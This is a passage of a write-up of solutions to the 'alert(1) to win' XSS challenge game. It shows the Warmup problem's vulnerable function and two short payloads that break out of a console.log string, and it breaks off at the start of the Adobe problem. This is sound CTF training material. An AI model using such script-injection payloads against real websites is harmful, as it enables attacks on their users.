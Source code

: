 # alert-1-to-win-solutions

> Although I am a pwn and reverse CTF player, I recently found web security interesting, so I went on [alert 1 to win](https://alf.nu/alert1) to sharpen by XSS techniques.

## Warmup

### Problem

```javascript
function escape(s) {
  return '<script>console.log("'+s+'");</script>';
}
```

### Solution

This problem is relatively easy. All you need to do is close the `console.log("` with `");`, and append `alert(1)//` to the end of your payload. (Everything after `//` turns into comments).

* **`");alert(1)//`** (13 bytes): 

```javascriptmeaning
<script>console.log("");alert(1)//");</script>
```

You may also use arithmetic operators like `+` or `-` to abridge your payload:

* **`");alert(1-"`** (12 bytes)

In this case, the Javascript becomes

```htmlmixed
<script>console.log("");alert(1-"");</script>
```

Here, the Javascript shows `alert(1-""`). `1-""` is essentially a `1` because  `""` will first be converted to a number, which is 0 according to Javascript's [peculiar type conversion](https://i.imgur.com/BiTO4A4.png).

## Adobe

### Problem

```javascript
function escape(s) {
  s = s.replace(/"/g, '\\"');
  return '<script>console.log("' + s + '");</script>';
}
```

### Solution

The challenge replaces `"` globally with `\"`, indicating that closing the script with `");` becomes unfeasible.
